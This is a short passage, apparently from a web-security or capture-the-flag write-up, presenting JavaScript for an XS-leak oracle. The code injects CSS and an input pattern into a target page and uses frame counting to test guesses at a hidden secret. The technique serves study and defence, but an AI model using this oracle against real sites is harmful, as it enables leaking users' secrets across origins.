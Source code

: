 ![](./img/step4-02.png)

This yields a **stable** and **fast** oracle without any external requests:

```javascript
const win = open("");

const match = async (pattern) => {
  win.location = "about:blank";
  await sleep(100);

  const content = `
    <link href="/not-found.txt?{}div:has(input:valid){display:none}" rel=stylesheet>
    <div>
      <embed code="x" type=text/html>
      <input pattern=".+${pattern}.+" value="
  `;
  const url = `${BASE_URL}?content=${encodeURIComponent(
    content
  )}${"&a".repeat(1000)}`;

  win.location = url;
  await sleep(100);

  return win.length === 0; // frame counting
};
```